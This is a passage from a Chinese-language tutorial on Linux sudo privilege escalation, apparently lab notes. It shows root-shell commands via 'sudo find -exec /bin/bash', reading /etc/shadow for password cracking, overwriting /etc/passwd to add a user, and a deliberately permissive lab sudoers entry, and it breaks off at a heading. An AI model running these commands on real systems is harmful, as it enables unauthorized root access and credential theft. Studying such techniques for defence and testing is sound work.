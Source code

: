 <a name="EI0Lt"></a>
### 2、Find提权
<a name="KdbPl"></a>
#### 1）查看sudo权限
```bash
sudo -l
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657559310218-dd80a549-8745-4f87-b7d3-4b3fb29abd9e.png#averageHue=%232d0922&clientId=u6ec4ea93-b9b8-4&from=paste&height=139&id=FBcsF&originHeight=139&originWidth=1070&originalType=binary&ratio=1&rotation=0&showTitle=false&size=23541&status=done&style=none&taskId=u17ba1db8-0112-41c0-8de4-62e5c1629d8&title=&width=1070)
<a name="wNF5o"></a>
#### 2）提权方法
```bash
sudo find /home -exec /bin/bash \;
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657559440956-f046723a-d882-4436-9650-2763385ed3e2.png#averageHue=%232d0923&clientId=u6ec4ea93-b9b8-4&from=paste&height=82&id=u72db99b2&originHeight=82&originWidth=469&originalType=binary&ratio=1&rotation=0&showTitle=false&size=12563&status=done&style=none&taskId=u7ccac437-61f6-486a-bb37-9b5b4c5d072&title=&width=469)
<a name="NGJF6"></a>
### 3、Cat提权
<a name="UUlal"></a>
#### 1）查看sudo权限
```bash
sudo -l
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657559576529-bf1255cd-1b1f-4bdc-a105-ad19d5bbcb2c.png#averageHue=%232d0a23&clientId=u6ec4ea93-b9b8-4&from=paste&height=147&id=u460fb35b&originHeight=147&originWidth=564&originalType=binary&ratio=1&rotation=0&showTitle=false&size=25124&status=done&style=none&taskId=udb3d3447-c6d0-47e1-8598-2f94b28ce00&title=&width=564)

<a name="JAxqi"></a>
#### 2）提权方法
由于cat没有直接提权的方法，可通过查看/etc/passwd和/etc/shadow通过john进行爆破
```bash
sudo cat /etc/shadow
```

<a name="hs9FN"></a>
### 4、CP命令提权
<a name="OebCC"></a>
#### 1）查看sudo权限
```bash
sudo -l
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657559792448-a104e833-40a1-44b1-9aa1-a4e2565b740a.png#averageHue=%232d0923&clientId=u6ec4ea93-b9b8-4&from=paste&height=133&id=u1aff0d02&originHeight=133&originWidth=562&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24748&status=done&style=none&taskId=u3823b216-e096-496a-b163-d3030771d2b&title=&width=562)
<a name="Aq8Ry"></a>
#### 2）提权方法
可以通过复制/etc/passwd，修改passwd文件，使用openssl生成用户密码，并添加用户账户到passwd文件中覆盖/etc/passwd文件
<a name="WpAnC"></a>
## 3.2 Perl Python Less Awk Man Vi 提权
<a name="Tb9E8"></a>
### 1、环境配置
<a name="DzlZQ"></a>
#### 1）编辑sudo配置文件
```bash
vim /etc/sudoers

test ALL=(root) NOPASSWD: /usr/bin/perl,/usr/bin/python,/usr/bin/less,/usr/bin/awk,/usr/bin/man,/usr/bin/vi

```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657560824381-e3c89c90-be7c-4159-bd5a-a63820d425f2.png#averageHue=%232e0a23&clientId=u6ec4ea93-b9b8-4&from=paste&height=93&id=u2db8b243&originHeight=93&originWidth=981&originalType=binary&ratio=1&rotation=0&showTitle=false&size=14655&status=done&style=none&taskId=u253ed738-b9ac-4246-9e4f-6b9f4db0efb&title=&width=981)
<a name="P1FZI"></a>
#### 2、检测sudo权限